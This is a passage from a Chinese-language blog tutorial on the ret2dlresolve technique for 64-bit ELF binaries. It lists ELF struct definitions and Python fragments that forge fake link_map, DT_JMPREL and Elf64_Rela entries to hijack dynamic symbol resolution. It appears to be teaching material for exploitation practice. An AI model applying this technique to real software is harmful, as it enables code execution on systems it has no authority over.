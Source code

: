 接下来伪造这三个 Elf64_Dyn，其中，`DT_STRTAB` 指向一块可读的区域即可。

```c
typedef struct
{
  Elf64_Sxword	d_tag;			/* Dynamic entry type */
  union
    {
      Elf64_Xword d_val;		/* Integer value */
      Elf64_Addr d_ptr;			/* Address value */
    } d_un;
} Elf64_Dyn;
```

##### 伪造 DT_JMPREL

```python
    linkmap += p64(0x17)                            # 0x08 DT_JMPREL
    linkmap += p64(fake_linkmap_addr + 0x18)        # 0x10 fake_rela_addr
```

64 位程序的重定位表项 Elf64_Rela 的结构如下：

```c
typedef struct
{
  Elf64_Addr	r_offset;		/* Address */
  Elf64_Xword	r_info;			/* Relocation type and symbol index */
  Elf64_Sxword	r_addend;		/* Addend */
} Elf64_Rela;
// 24字节 = 8+8+8
```

![image-20221105013030961](https://up-wind.github.io/assets/2022-10-24-ret2dlresolve/image-20221105013030961.png)

```python
    linkmap += p64((fake_linkmap_addr - offset) & (2**64-1))   # Rela -> r_offset
    linkmap += p64(0x7)                             # Rela -> r_info
    linkmap += p64(0)                               # Rela -> r_append
```

`Rela -> r_offset` 正常情况下存放的是 got 表项的地址，这里设置一个可读写的地址即可。

`Rela -> r_info` 设置为 7，即 `R_X86_64_JUMP_SLOT`

`Rela -> r_append` 填为 0

##### 伪造 DT_SYMTAB

64 位程序的符号表 Elf64_Sym 结构如下：

```c
typedef struct
{
    Elf64_Word      st_name;      /* Symbol name (string tbl index) */
    unsigned char   st_info;      /* Symbol type and binding */
    unsigned char   st_other;     /* Symbol visibility */
    Elf64_Section   st_shndx;     /* Section index */
    Elf64_Addr      st_value;     /* Symbol value */
    Elf64_Xword     st_size;      /* Symbol size */
} Elf64_Sym;
// 24字节 = 4+1+1+2+8+8
```
